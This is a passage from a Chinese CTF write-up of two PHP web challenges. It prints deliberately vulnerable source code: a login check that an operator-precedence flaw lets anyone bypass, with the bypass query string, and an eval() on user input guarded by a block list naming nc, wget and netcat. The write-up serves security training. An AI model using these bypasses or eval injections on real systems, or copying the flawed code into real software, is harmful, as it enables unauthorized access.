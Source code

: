 ## web132(运算符优先级)

```php
<?php
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
} 
```

访问robots.txt，查看后访问/admin得到源码

在php中&&比||先运算

优先级表

![image-20240114201713240](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20240114201713240.png)

前面两个false，满足$username ==="admin"，就为true

payload

```
code=admin&password=1&username=admin
```

## web133(无回显rce)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
```

参考：[web133](http://t.csdnimg.cn/gpP9V)
